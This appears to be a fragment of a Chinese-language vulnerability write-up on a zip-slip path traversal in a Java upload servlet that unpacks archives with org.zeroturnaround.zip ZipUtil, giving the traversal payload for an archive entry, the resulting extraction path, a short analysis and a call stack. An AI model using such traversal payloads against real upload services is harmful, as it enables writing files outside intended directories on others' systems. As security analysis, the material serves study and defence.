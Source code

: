 payload

```
../../../../../../../../../../../../../../../../../../../../../../../../tmp/flag.txt
```

解压路径

```
# 目录成功穿越到根目录 
F:\tmp\flag.txt
```

 ![image-20220215152949881](img/image-20220215152949881.png)



漏洞分析

![image-20220215153502354](img/image-20220215153502354.png)

- 判断文件是否为 .zip 后缀
- 调用 org.zeroturnaround.zip.ZipUtil#unpack  进行解压缩

调用栈

```java
process:1150, ZipUtil$Unpacker (org.zeroturnaround.zip)
iterate:508, ZipUtil (org.zeroturnaround.zip)
iterate:472, ZipUtil (org.zeroturnaround.zip)
unpack:996, ZipUtil (org.zeroturnaround.zip)
unpack:939, ZipUtil (org.zeroturnaround.zip)
doPost:56, UploadServlet (se.kth.servlet)
...
```
